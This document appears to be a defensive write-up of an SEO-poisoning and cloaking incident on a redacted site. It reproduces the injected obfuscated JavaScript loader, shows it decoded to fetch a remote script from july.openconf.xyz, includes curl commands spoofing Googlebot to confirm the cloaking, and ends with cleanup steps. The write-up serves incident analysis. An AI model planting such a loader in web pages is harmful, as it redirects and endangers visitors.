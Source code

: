 ```yaml
---
title: 'SEO Poisoning'
date: '2025-08-10'
tags: ['SEO-POISONING']
draft: false
summary: 'SEO Poisoning is an attack designed to manipulate search engine algorithms, promoting malicious pages to appear in top positions in search results.'
images: ['/static/images/seo-poisoning-images/default.png']
authors: ['default']
---
```


![logo](/static/images/seo-poisoning-images/default.png)

---

# SEO Poisoning

It has been identified that the subdomain `REDACTED` is being used for SEO poisoning and redirecting visitors (especially indexing bots such as Googlebot) to gambling sites and malicious content.
The legitimate page is replaced by malicious HTML only when access is detected to be coming from a search engine bot.

SEO Poisoning is an attack designed to manipulate search engine algorithms, promoting malicious pages to appear in top positions in search results.

---

## Analysis

By performing a Google search for the domain `REDACTED`, it was possible to see that it is indexing several suspicious sites, mainly related to gambling:

```bash
site:https://REDACTED
```

![seopoisoning](/static/images/seo-poisoning-images/image.png)

Accessing the URL and capturing the request using a proxy (BurpSuite), it was possible to identify the execution of an obfuscated script:

![seopoisoning 1](/static/images/seo-poisoning-images/image5.png)

![seopoisoning 3](/static/images/seo-poisoning-images/image3.png)

```bash
<script>eval(function(p,a,c,k,e,d){e=function(c){return c};if(!''.replace(/^/,String)){while(c--) {d[c]=k[c]||c}k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1};while(c--){if(k[c]) {p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c])}}return p}('9.8("<0 7=\\"6://5.4.3/2.1\\"> </0>");',10,10,'script|js|brxxx|xyz|openconf|july|hxxps|src|write|document'.split('|'),0,{})) </script>
```

Após realizar a desofuscação, verificou-se que o código redireciona para a URL `hxxps://july.openconf[.]xyz/brxxx.js` :

```bash
document.write("<script src=\"hxxps://july.openconf.xyz/brxxx.js\"></script>");
```

Accessing the URL revealed that the **brxxx.js** JavaScript file redirects the user to the malicious site `hxxps://9d[.]bet[.]br/?dt142s01`, in addition to loading external tracking SDKs and executing other suspicious scripts.
![seopoisoning 4](/static/images/seo-poisoning-images/image4.png)

---

## SEO Poisoning Confirmation

When the URL is accessed directly, the server returns a 404 error. However, when the same page is accessed via Google, it redirects to the malicious page.

This happens because, during Google’s indexing process, the server delivers an altered (malicious) HTML instead of the legitimate content. This technique is also known as Cloaking.

The simulation was carried out as follows:

**Simulating Googlebot access:**

```bash
curl -A "Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)" https://REDACTED
```

![seopoisoning 1](/static/images/seo-poisoning-images/image1.png)

**Normal access:**

```bash
curl https://REDACTED
```

![seopoisoning 2](/static/images/seo-poisoning-images/image2.png)

---

## Conclusion

Based on the evidence presented, there are strong indications that the server has been compromised and is being used to spread malicious content, especially through **SEO poisoning**, to redirect visitors and indexing bots to gambling sites and other potentially dangerous pages.

---

## Recommendations

- Locate infected files by searching directly for the identified malicious script pattern:

```bash
grep -R "eval(function(p,a,c,k,e,d)" /var/www/ 2>/dev/null
```

OBS: Note: Adjust **/var/www/** to the actual application path on the server.

- Search for direct references to the malicious URL:

```bash
grep -R "july.openconf.xyz" /var/www/ 2>/dev/null
```

- Check for persistence via suspicious scheduled tasks:

```bash
cat /etc/crontab
crontab -l
```

- Check for suspicious connections and processes:

```bash
ps aux
ss -tulnp
```

- Monitor suspicious processes using the pspy tool (https://github.com/DominicBreuker/pspy) to identify automated executions, backdoors, or rootkits that may reactivate the malicious code after cleanup.
- Block the malicious URL `july.openconf[.]xyz` in the firewall, proxy, or IDS to prevent reinfection and new payload downloads.
